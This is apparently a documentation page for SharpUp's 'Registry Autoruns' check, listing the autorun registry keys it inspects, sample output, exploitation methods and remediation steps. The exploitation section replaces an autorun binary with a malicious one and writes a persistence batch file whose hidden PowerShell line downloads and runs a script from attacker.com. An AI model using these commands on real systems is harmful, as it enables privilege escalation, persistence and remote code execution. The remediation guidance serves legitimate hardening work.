 ```yaml
---
title: 'Registry Autoruns'
description: 'Modifiable autorun registry entries'
icon: 'list'
---
```


## Overview

The Registry Autoruns check identifies registry entries that automatically execute programs at system startup or user logon, where the executable files have weak permissions. This allows an attacker to replace legitimate autorun binaries with malicious ones for privilege escalation or persistence.

## How It Works

SharpUp checks multiple autorun registry locations:

**HKLM Locations:**
- `SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- `SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`
- `SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run`
- `SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce`
- `SOFTWARE\Microsoft\Windows\CurrentVersion\RunService`
- `SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceService`
- `SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\RunService`
- `SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnceService`

For each entry:
1. Extracts the executable path using regex
2. Checks if the current user can modify the executable
3. Reports modifiable autorun binaries

## Example Output

```
=== Modifiable Registry AutoRun Files ===
    HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : C:\Tools\startup.exe
    HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run : C:\Apps\monitor.bat
```

## Exploitation

### Method 1: Replace Autorun Binary

```powershell
# Backup original
$autorunPath = "C:\Tools\startup.exe"
Copy-Item $autorunPath "$autorunPath.bak"

# Replace with malicious binary
Copy-Item C:\temp\malicious.exe $autorunPath -Force

# Wait for system restart or user logon
# Malicious code executes automatically
```

### Method 2: Persistence

```powershell
# Create backdoor that runs at every logon
$payload = @"
@echo off
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
"@

$payload | Out-File -FilePath "C:\Tools\startup.bat" -Encoding ASCII

# Executes every time any user logs on
```

## Remediation

<Steps>
  <Step title="Identify Modifiable Autoruns">
    ```powershell
    $runKeys = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
        "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run"
    )

    foreach ($key in $runKeys) {
        Get-ItemProperty $key | Get-Member -MemberType NoteProperty |
        Where-Object { $_.Name -notmatch "PS" } | ForEach-Object {
            $name = $_.Name
            $value = (Get-ItemProperty $key).$name

            if ($value -match '(.+\.exe|.+\.bat|.+\.ps1)') {
                $exePath = $matches[1].Trim('"')
                if (Test-Path $exePath) {
                    $acl = Get-Acl $exePath
                    Write-Host "Checking: $name -> $exePath"
                }
            }
        }
    }
    ```
  </Step>

  <Step title="Secure Autorun Binaries">
    ```powershell
    # Fix permissions on autorun executable
    $exePath = "C:\Tools\startup.exe"

    icacls $exePath /reset
    icacls $exePath /inheritance:r
    icacls $exePath /grant:r "SYSTEM:F"
    icacls $exePath /grant:r "Administrators:F"
    icacls $exePath /grant:r "Users:RX"
    ```
  </Step>

  <Step title="Remove Unnecessary Autoruns">
    ```powershell
    # Review and remove unnecessary autorun entries
    $key = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    Remove-ItemProperty -Path $key -Name "UnnecessaryApp"
    ```
  </Step>
</Steps>

## Related Checks

<CardGroup cols={2}>
  <Card title="Hijackable Paths" icon="route" href="/ghostpack-docs/SharpUp-mdx/checks/hijackablepaths">
    Writable folders in system PATH
  </Card>
  <Card title="Modifiable Scheduled Task" icon="clock" href="/ghostpack-docs/SharpUp-mdx/checks/modifiablescheduledtask">
    Scheduled tasks with weak permissions
  </Card>
</CardGroup>
